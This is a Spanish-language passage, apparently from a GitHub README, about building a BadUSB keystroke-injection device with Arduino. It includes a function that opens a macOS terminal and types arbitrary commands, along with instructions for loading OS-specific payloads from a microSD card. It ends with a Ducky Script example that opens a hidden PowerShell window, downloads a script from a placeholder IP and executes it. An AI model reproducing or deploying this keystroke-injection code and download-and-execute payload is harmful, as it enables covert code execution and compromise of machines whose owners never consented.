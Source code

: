La función que sí se ha creado para este sistema es la de ejecución de código en la terminal. Como se puede ver abre una terminal y a continuación escribe la línea pasada por parámetro. 

``` Arduino
//Payload to exec in terminal MacOS
void execMacOS(char *string) {
  Keyboard.press(KEY_LEFT_GUI);     // Press and hold the Windows key.
  Keyboard.press(KEY_SPACE);
  Keyboard.releaseAll();

  delay(500);                     // Wait 

  //writeLineMacOS("terminal"); not working
  Keyboard.println("terminal"); //only for qwerty
  
  delay(500);                       // Wait

  Keyboard.press(KEY_RETURN);       // Press the Enter key.
  delay(200);                       // Wait for the computer to register the press.
  Keyboard.releaseAll();            // Release the Enter key.

  writeLineMacOS(string);

  Keyboard.press(KEY_RETURN);       // Press the Enter key.
  delay(100);                       // Wait for the computer to register the press.
  Keyboard.releaseAll();            // Release the Enter key.

}
```

#### EXTRA: Payloads desde la SD 

En este método se puede añadir la biblioteca para identificar el Sistema Operativo y leer diferentes ficheros en función del tipo. No me he metido a modificar el código de Seytonic más de la cuenta, pero también se podría ejecutar en cualquier idioma con los mismos métodos que en Arduino directamente, ya que el procesado de cada carácter se hace en el código. Pero eso lo dejo para el futuro. 

Para instalar esté método se necesita una placa con lector de tarjetas microSD y es igual que el anteriormente mencionado, pero cambiando el repositorio TheOneBadUSB por el fork que tengo añadiendo el detector de SO que se puede encontrar [aquí](https://github.com/RaulCalvoLaorden/Duckduino-microSD)

Una vez montado todo se tienen que crear 3 ficheros en la tarjeta SD:
- windows.txt
- linux.txt
- macos.txt

Cada uno con el código habitual. 
Por ejemplo, payload que se descarga un script de PowerShell de una IP y lo ejecuta en segundo plano:

``` 
DELAY 500
GUI r
DELAY 400
STRING powershell.exe  -windowstyle hidden $ie = Invoke-WebRequest "http://IP/ps.txt" -UseBasicParsing | Select-Object -Expand Content ; Invoke-Expression $ie
ENTER
```
## TODO
